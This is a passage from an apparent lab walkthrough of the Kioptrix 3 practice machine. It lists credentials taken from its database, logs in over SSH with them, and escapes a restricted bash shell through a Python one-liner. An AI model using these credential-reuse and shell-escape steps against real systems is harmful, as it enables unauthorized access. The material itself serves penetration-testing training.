 `admin`:`n0t7t1k4`, from the `gallarific_users` table, as well as `dreg`:`Mast3r` and `loneferret`:`starwars` from the `dev_accounts` table.

# [](#header-4)Escaping from Restricted Shells

The most useful credentials at this point are the `dreg` and `loneferret` accounts because they might allow us to login via SSH!

`$ ssh dreg@192.168.1.31`

```
dreg@192.168.1.31's password: Mast3r
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
dreg@Kioptrix3:~$ echo $SHELL
/bin/rbash
```

Unfortunately it looks like logging in as `dreg` drops us in a [restricted bash shell](https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html).

`dreg@Kioptrix3:~$ /bin/bash`

```
-rbash: /bin/bash: restricted: cannot specify `/' in command names
```

Thankfully `rbash` isn't too difficult to escape from.

First we'll check if Python is installed on the target system,

`dreg@Kioptrix3:~$ which python`

```
/usr/bin/python
```

And then use python to spawn a fully fledged `bash` prompt.

`dreg@Kioptrix3:~$ python -c 'import os; os.system("/bin/bash")'`

Of course we also could just log in as `loneferret` who isn't in a restricted shell in the first place:

`$ ssh loneferret@192.168.1.31`

```
loneferret@192.168.1.31's password: starwars
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
Last login: Sat Apr 16 08:51:58 2011 from 192.168.1.106
loneferret@Kioptrix3:~$ echo $SHELL
/bin/bash
```
